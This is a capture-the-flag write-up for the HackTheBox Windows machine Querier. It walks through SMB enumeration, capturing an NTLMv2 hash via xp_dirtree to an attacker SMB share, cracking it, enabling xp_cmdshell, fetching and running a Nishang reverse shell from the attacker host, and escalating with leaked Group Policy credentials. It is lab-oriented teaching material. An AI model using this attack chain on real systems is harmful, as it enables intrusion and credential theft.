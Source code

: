 :slug: querier-writeup/
:date: 2019-06-28
:category: attacks
:subtitle: How to solve HTB Querier
:tags: security, htb, pwn, web, windows
:image: cover.png
:alt: New York City Skyline
:description: Querier is a Windows HackTheBox machine with several insecure configurations. This article explains how to use these configurations to gain system access as a user without privileges, and how to escalate to administrator privileges using penetration testing tools.
:keywords: HTB, Security, Web, Writeup, Bounty, Windows
:author: Andrés Tirado
:writer: atirado
:name: Andrés Tirado
:about1: Mechatronic Engineer
:about2: Enjoy the Little Things
:source: https://unsplash.com/photos/wh-7GeXxItI

= Querier Writeup

In my opinion,
link:https://www.hackthebox.eu/home/machines/profile/175[Querier]
is a great box.
By following the steps below
we will learn a bit about `Windows`
(a widely used operating system) pentesting.
The challenge begins with a public `SMB`;
this is our first challenge level.
Next, we will work with `SQL Server`
and we will need to use a special `SQL` query
to get the user hash.
Finally, we will take advantage of an insecure configuration
in `Group Policy Preferences` in `Windows`
to escalate to administrator privileges.


== Scanning Phase

The first thing to do is check the connection
to the machine with a simple `ping` command.
We need a stable connection
with the box to make sure that
we will not lose all of our progress.

.Ping
[source, bash]
----
$ ping 10.10.10.125
----

.IP Querier
image::ip.png[ip]

.Doing ping
image::ping.png[ping]

Next, we can use `nmap` to find open ports in the machine.
A simple port scanning is enough for our purposes.

[source, bash]
----
$ nmap -Pn 10.10.10.125
----

.Port scanning
image::nmap.png[nmap]

We see 4 open ports (`135`, `139`, `445` and `1433`)
and among these,
we found two interesting services,
`microsoft-ds (SMB)` in port `445` and
`ms-sql-s` in port `1433`.
When we try to access via SMB,
it shows us a shared folder called `Report` with a `.xlsm` file,
the extension indicating a `Microsoft Excel Document`.

.Public share
image::share.png[share]

Then we open the specified file with `Microsoft Excel` and
a warning message appears telling us that
the file contains a suspicious macro.

.Macro alert
image::alert.png[alert]

We can explore the macro code in `Microsoft Excel`
using the option `Visual Basic` in the Developer Tab.
The macro has an insecure configuration
of a connection to `SQL Server`,
the credentials are in plain text and now we can use them.
It's a good example of something
that we should never do.

.Macro code
image::macro.png[macro]

== Getting User

Now we can connect to the other interesting service
that we found: `ms-sql-s`.
We use the module `mssqlclient.py` of `Impacket`
to do queries to the server interactively
using the credentials found in the last step,
for example a query to know the version of `SQL Server`
like the first testing query.

[source, bash]
----
$ mssqlclient.py -windows-auth QUERIER/reporting:PcwTWTHRwryjc\$c6@10.10.10.125
----

.Mssql conection
image::mssql-conection.png[mssql-conection]

We will use this service to gain system access,
as a user without privileges.
We mount an `SMB` server in our machine
to capture the authentication of any Windows user,
in this case, the user that executes the service `ms-sql-s`.
We tell it to enter our share
to capture its `NTLMv2` hash with an `xp_dirtree` query.
This stored procedure of `SQL Server`
will access our `SMB` share
to display a list of every folder,
every subfolder, and every file.

[source, bash]
----
> EXEC master.sys.xp_dirtree '\\10.10.15.1\querier';
----

[source, bash]
----
$ smbserver.py -smb2support querier Documents/
----

.User hash
image::mssql-hash.png[mssql-hash]

Then we copy the hash to a plain text file and
use `John the Ripper` with the dictionary `rockyou.txt`
to crack the captured hash.
We need to specify the correct hash format because
`John the Ripper` occasionally recognizes your hashes as the wrong type.
This is inevitable because
some hashes look identical,
in this case the correct format for `NTLMv2` is `netntlmv2`.

[source, bash]
----
$ john.exe --wordlist=rockyou.txt --format-netntlmv2 \\
     "\Users\dette\HackTheBox\Querier\hash_mssql-svc.txt"
----

.Runnnig John
image::john.png[john]

Now we can connect to `SQL Server` as user `mssql-svc`.
We try to execute the command `whoami`, however,
it responds telling us that
component `xp_cmdshell` is blocked.
Since we are the service administrator,
we can enable it using a few queries.

[source, bash]
----
$ python mssqlclient.py -windows-auth QUERIER/mssql-svc:corporate568@10.10.10.125
----

.xp_cmdshell disabled
image::user-mssql.png[user-mssql]

[source, bash]
----
> EXEC sp_configure 'show advanced options', 1;
> EXEC sp_configure reconfigure;
> EXEC sp_configure 'xp_cmdshell', 1;
> EXEC sp_configure reconfigure;
> EXEC master.dbo.xp_cmdshell 'whoami';
----

.xp_cmdshell enabled
image::mssql-commands.png[mssql-commands]

Because we can execute commands,
reading the user flag is now possible.

.User flag
image::flag-user.png[flag-user]

== Getting Root

This method of executing commands
may be an inconvenient way to escalate privileges,
so we will upload a shell to the server.
To do this we will use the script `Invoke-PowerShellTcp.ps1`
of `Nishang` framework.
Before uploading the shell
we add our IP address and
some free port to make the connection.

[source, bash]
----
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.1 -Port 30000
----

.Invoke-PowerShellTcp code
image::ip-shell.png[ip-shell]

Then it is necessary to start an `HTTP` server in our machine.
We can do it with `Python3`.

[source, bash]
----
$ python -m http.server
----

.Http server
image::python-server.png[python-server]

To make the server download our file,
we can use `Powershell` as follows.

[source, bash]
----
> EXEC master.dbo.xp_cmdshell 'powershell.exe \\
       Invoke-WebRequest http://10.10.15.1:8000/Invoke-PowerShellTcp.ps1 \\
       -OutFile c:\Users\mssql-svc\Music\Invoke-PowerShellTcp.ps1';
----

Now to get an interactive shell
we set our machine to listen `port 30000` and
execute the script in the `HTB` machine.

[source, bash]
----
$ nc -lvp 30000
----

[source, bash]
----
> EXEC master.dbo.xp_cmdshell 'powershell.exe \\
       c:\Users\mssql-svc\Music\Invoke-PowerShellTcp.ps1';
----

.Interactive shell
image::shell-nc.png[shell-nc]

At this point we use the module `PowerUp.ps1`
from the `PowerSploit` collection to scan the system
to find a way to escalate privileges.
We can use the same method as in the last step.
We upload the file to the server with `Python3`.

To execute the script we need to import it first,
next we can run all checks
with the command `Invoke-AllChecks`.
It will output any identifiable vulnerabilities
along with specifications for any abuse functions.

[source, bash]
----
> Import-Module C:\Users\mssql-svc\Music\PowerUp.ps1
> Invoke-AllChecks
----

.Running PowerUp.ps1
image::powerup.png[powerup]

We can see the Administrator credentials
in plain text in the script output.
The script took advantage
of an insecure configuration
in `Group Policy Preferences` of `Windows`;
it saves credentials with weak encryptions.
It’s time to prove these and
to obtain the root flag.

.Root credentials
image::root-credentials.png[root-credentials]

Finally, we can get an interactive shell
as Administrator with `psxec.py` from `Impacket`.
With this, we can read the root flag.

[source, bash]
----
$ python psexec.py QUERIER/Administrator:MyUnclesAreMarioAndLuigi!!1!@10.10.10.125
----

.Running psexec.py
image::psexec.png[psexec]

Another way to get the root flag
could be to find the file
+
[source, bash]
----
C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
----
using a native tool like `findstr` and
decrypt the password using
the `gpp-decrypt` tool of `Kali Linux`.

.Encrypted password
image::crypt.png[crypt]

.Decrypted password
image::decrypt.png[decrypt]

In this challenge,
we saw some insecure configurations
such as saved credentials in plain text in code.
We also learned how to start an `SMB` server
in our machine to capture hashes and
finally, we learned and used some important tools
for pentesting in `Windows` like
`Impacket`, `Nishang`, and `PowerSploit`.
